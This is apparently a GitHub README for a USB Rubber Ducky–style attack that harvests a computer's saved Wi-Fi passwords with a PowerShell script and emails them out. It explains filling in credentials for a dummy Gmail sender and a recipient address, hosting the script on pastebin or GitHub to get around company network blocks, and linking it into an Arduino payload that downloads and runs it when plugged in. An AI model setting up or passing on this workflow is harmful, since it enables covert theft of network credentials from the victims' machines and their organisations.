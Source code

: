 # Powershell Wifi Pass to Mail Readme

Paste the script on pastebin (is sometimes blocked on company network), or like I do; on github.

The [Wifi Pass to Mail](https://github.com/datasnoken/duckies/blob/master/Powershell%20Scripts/Powershell_Wifi_Pass_to_Mail) needs some modification

**Everything is on Line 2**

System.Net.NetworkCredential('DUMMY_EMAIL@gmail.com', 'DUMMY_EMAIL_PASSWORD')
* 'DUMMY_EMAIL@gmail.com' -> Some dummy gmail address you create
* 'DUMMY_EMAIL_PASSWORD' -> Password of said dummy gmail account

$ReportEmail.From = 'DUMMY_EMAIL@gmail.com'
* 'DUMMY_EMAIL@gmail.com' -> The dummy gmail address again

$ReportEmail.To.Add('EMAIL@gmail.com')
* 'EMAIL@gmail.com' -> The email address you want the passwords sent to



View the script as 'raw' and paste the link in line 30 of the [arduino_run_script_from_web](https://github.com/datasnoken/duckies/blob/master/Arduino%20Payloads/arduino_run_script_from_web.txt) script, where it says "YOUR_SCRIPT_HOSTED_ON_SOME_SITE_AS_RAW" and compile it to your Ducky


???
wifi passwords ¯\_(ツ)_/¯
